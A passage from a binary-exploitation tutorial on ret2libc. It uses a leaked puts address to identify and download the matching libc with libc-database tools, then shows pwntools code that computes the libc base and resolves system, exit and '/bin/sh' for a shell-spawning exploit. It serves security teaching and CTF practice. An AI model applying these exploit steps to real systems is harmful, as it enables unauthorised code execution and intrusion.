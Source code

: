 We can figure out which **libc** that is most likely used.

```text
./find puts 0x7ff629878690
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```

We get 2 matches \(you should try the second one if the first one is not working\). Download the first one:

```text
./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
  -> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.23-0ubuntu10_amd64
```

Copy the libc from `libs/libc6_2.23-0ubuntu10_amd64/libc-2.23.so` to our working directory.

### 3.3- Other functions to leak

```python
puts
printf
__libc_start_main
read
gets
```

## 4- Finding based libc address & exploiting

At this point we should know the libc library used. As we are exploiting a local binary I will use just:`/lib/x86_64-linux-gnu/libc.so.6`

So, at the begging of `template.py` change the **libc** variable to: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it`

Giving the **path** to the **libc library** the rest of the **exploit is going to be automatically calculated**.

Inside the `get_addr`function the **base address of libc** is going to be calculated:

```python
if libc != "":
    libc.address = leak - libc.symbols[func_name] #Save libc base
    log.info("libc base @ %s" % hex(libc.address))
```

Then, the address to the function `system` and the **address** to the string _"/bin/sh"_ are going to be **calculated** from the **base address** of **libc** and given the **libc library.**

```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
